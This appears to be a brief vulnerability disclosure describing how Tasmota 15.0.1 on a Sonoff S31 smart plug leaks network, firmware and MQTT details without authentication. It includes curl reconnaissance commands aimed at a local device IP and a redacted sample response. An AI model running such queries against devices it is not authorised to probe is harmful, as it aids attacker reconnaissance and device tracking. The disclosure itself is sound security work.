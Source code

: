 #  Information Leakage via Status API

## 📋 Summary
The Tasmota firmware version 15.0.1 running on the Sonoff S31 smart plug exposes sensitive internal data to any device on the same network without requiring authentication. Using the `Status 11` and `Info` commands, an attacker can retrieve details about the device’s network configuration, uptime, firmware, and MQTT setup.

##  Example Commands
```bash
curl "http://172.21.56.214/cm?cmnd=Status%2011"
curl "http://172.21.56.214/cm?cmnd=Info"
```

## Sample Response
```bash
{
  "StatusNET": {
    "Hostname": "tasmota-XXXX",
    "IPAddress": "172.21.56.214",
    "Gateway": "172.21.56.1",
    "Mac": "A0:20:A6:xx:xx:xx",
    ...
  }
}
```

## Impact 
- Reveals Wi-Fi network details (SSID, MAC address)

- Aids attacker reconnaissance

- Can be used to fingerprint and track devices

- Makes brute-force and spoofing attacks easier
